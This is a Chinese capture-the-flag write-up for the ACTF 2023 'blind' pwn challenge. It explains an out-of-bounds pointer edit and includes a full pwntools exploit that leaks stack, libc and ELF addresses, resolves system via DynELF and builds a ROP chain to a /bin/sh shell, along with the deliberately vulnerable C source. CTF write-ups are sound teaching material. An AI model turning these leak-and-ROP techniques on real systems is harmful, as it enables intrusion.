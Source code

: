 # ACTF2023 blind WP

## 解题思路

这道题提供了字符编辑功能，玩两下就可以发现存在越界编辑

改改周围看下会发生什么——

```
[A]aaaaaa
> 8DW
aaaaaa 
> AS
Aaaaaaa[]
```

当右移8再+1后，我们发现输出位置改变了，说明改到了字符串指针，那么`8D8W`就可以输出这个指针本身的值，发现是`0x7fff`开头的栈上地址。那么只要修改这个指针就可以dump stack。

然后搞清楚程序修改的机制：首先显而易见的有两个指针——一个是每次输出字符串name的地址，一个是当前修改的位置。那么修改的位置是独立指针，还是基于名字的偏移？我们发现在`8DW`后需要`AS`才能恢复原状，也就是说在修改指针地址后，当前修改的位置也偏移了。这就说明输出的是指针，而`[]`是一个下标。于是我们大概可以还原出这样的代码：

```c
switch(toupper(ch)) {
    case 'W': p[cursor] += times; break;
    case 'A': cursor -= times; break;
    case 'S': p[cursor] -= times; break;
    case 'D': cursor += times; break;
    case ' ': p[cursor] ^= 0x20; break;
    case '\n': break;
    default : printf("Invalid: %c\n", ch);   break;
}
```

还有一个问题是，修改指针后是否立即生效？试一下`8DWS`发现输出还是Aaaaaaa，说明修改偏移是即时的，而修改指针会在下一次生效。也就是说修改时传入的是指针副本。于是又可以还原出一些逻辑。

```c
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
...
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr)); // 传入了指针的副本，当次修改不影响指向
    printf("Hello, %s!\n", ptr);
    return 0;
}
```

这样就可以任意修改和泄露了。栈上有libc、elf以及栈的地址，泄露后把偏移改到`elf&0xfffffffff000`的位置leak，然后ROPGadget找到`pop rdi; ret`的地址，用DynELF解`system`，把名字改成`/bin/sh`，ret2csu即可。（作为一个良心出题人，给大家用了2.31。如果是2.35就要去dump libc了;）

exp：

```python
#! /usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : std.py
@Time    : 2023/10/6 Mon 19:02:36
@Author  : Wh1sper
@Desc    : exp for ACTF 2023 blind
'''

from pwn import *

context.update(arch='amd64', os='linux', log_level='debug', timeout=None)

io = remote('120.46.65.156', 32104)

base, offset = 0, 0
def Off(pos): # 将[]修改到指定偏移
    global offset
    cnt = pos - offset
    offset = pos
    if cnt > 0:
        return str(cnt).encode() + b'D'
    else:
        return str(-cnt).encode() + b'A'

def setval(_offset, orig, to): # 修改base[_offset]的值为to，需要知道original
    payload = b''
    for (i, (b, a)) in enumerate(zip(orig, to)):
        change = a - b
        if change != 0:
            payload += Off(_offset + i)
        if change > 0:
            payload += str(change).encode() + b'W'
        elif change < 0:
            payload += str(-change).encode() + b'S'
    return payload

def Base(addr): # 将base指针修改到指定位置
    global base
    payload = setval(stack_addr - base, p64(base), p64(addr))
    base = addr
    return payload

def leak(addr): # base到指定位置然后输出
    payload = Base(addr) + Off(-1)
    io.sendlineafter(b"> ", payload)
    ret = io.recvuntil(b'\n> ', drop=True)
    io.unrecv(b'> ')
    return ret

def dump_elf(baseaddr):
    with open('dump', 'wb') as f:
        for i in range(0x1000 // 8):
            print(hex(i))
            f.write(leak(baseaddr + i * 8))
    print("dump done.")
    exit(0)

payload = setval(0, b'Aaaaaaa', b'/bin/sh')
io.sendlineafter(b"\n> ", payload)

payload = Off(8) + b'8W'
io.sendlineafter(b"> ", payload)
stack_addr = u64(io.recvuntil(b"\n", drop=True))
log.success(f'Leak stack: {stack_addr:#014x}')
base = stack_addr

# Step 1: View stack.
# for i in range(20):
#     print(f"{i:#x}: {u64(leak(stack_addr + i * 8)):#014x}")
# exit(0)

libc_addr = u64(leak(stack_addr + 0x10))
log.success(f'Leak libc: {libc_addr:#014x}')
elf_addr = u64(leak(stack_addr + 0x28))
log.success(f'Leak elf: {elf_addr:#014x}')

# Step 2: Dump elf
# dump_elf(elf_addr & 0xfffffffff000)

d = DynELF(leak, libc_addr, libcdb=False)
system_addr = d.lookup('system', 'libc')
log.success(f'Leak system: {system_addr:#014x}')

val_0x18 = u64(leak(stack_addr + 0x18))
val_0x20 = u64(leak(stack_addr + 0x20))
poprdi_ret = 0x5db + (elf_addr & 0xfffffffff000) # ROPgadget --binary dump --rawArch=x86 --rawMode=64 | grep "pop rdi ; ret"
io.sendlineafter(b"> ", Base(stack_addr))
io.sendlineafter(b"> ", setval(0x10, p64(libc_addr), p64(poprdi_ret))) # poprdi, ret
io.sendlineafter(b"> ", setval(0x18, p64(val_0x18), p64(stack_addr - 8))) # binsh_addr
io.sendlineafter(b"> ", setval(0x20, p64(val_0x20), p64(poprdi_ret + 1))) # ret
io.sendlineafter(b"> ", setval(0x28, p64(elf_addr), p64(system_addr))) # system
io.sendlineafter(b"> ", b'')

context.log_level = 'info'
io.interactive()

```

## 解题情况

大家的解法和官方解相差无几。一些队伍leak libc地址后查到了版本是`Debian GLIBC 2.31-13+deb11u7`，可以不用dump直接打ROP。

星盟的师傅非常牛逼，在不dump程序的情况下爆破到了ROP gadget。具体做法是：

1. 由于8A（name往低8字节）存放了返回地址，所以把name修改为栈上泄露的elf地址，通过name-0x8位置爆破前面泄露出来的elf函数附近的ret。
2. 通过布置栈（将返回地址放到name[0x30]），爆破csu的pop6_gadget。

这样就无需dump可以直接打了（需要用DynELF解出system地址），666

## 题目源码

不同gcc版本编译偏移可能会有变化，题目用的镜像是`debian 11(bullseye)`

```c
// gcc src.c -o blind
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>

ssize_t cursor = 0;
int process(char *p) {
    char *ops = NULL;
    int has_d = 0;
    size_t bufsize;
    ssize_t i = 0, len, rep;
    if ((len = getline(&ops, &bufsize, stdin)) == -1) {
        puts("Error.");
        exit(EXIT_FAILURE);
    } else if (len == 1) {
        free(ops);
        return 0;
    }
    while (i < len) {
        char ch = ops[i++];
        ssize_t times;
        if (isdigit(ch)) {
            rep = rep * 10 + (ch - '0');
            has_d = 1;
            continue;
        }
        times = has_d ? rep : 1;
        switch(toupper(ch)) {
            case 'W': p[cursor] += times; break;
            case 'A': cursor -= times; break;
            case 'S': p[cursor] -= times; break;
            case 'D': cursor += times; break;
            case ' ': p[cursor] ^= 0x20; break;
            case '\n': break;
            default : printf("Invalid: %c\n", ch);   break;
        }
        rep = 0;    has_d = 0;
    }
    free(ops);
    return 1;
}
void print(char *p) {
    int i;
    for (i = 0; i < 0x8; ++i) {
        if (i == cursor)
            printf("[%c]", p[i]);
        else
            printf("%c", p[i]);
    }
}
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(namebuf, 'a', sizeof(namebuf));
    namebuf[0] ^= 0x20;
    namebuf[sizeof(namebuf) - 1] = 0;
    puts("Welcome to ACTF, type your name here.");
    puts("Use A/D to move, W/S to change letter, <Space> to change Capital. You can add prefix n to repeat W/A/S/D command(3A2W = AAAWW), just like vi. When you finish it, send a single <Enter> to submit.");
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr));
    printf("Hello, %s!\n", ptr);
    return 0;
}

```

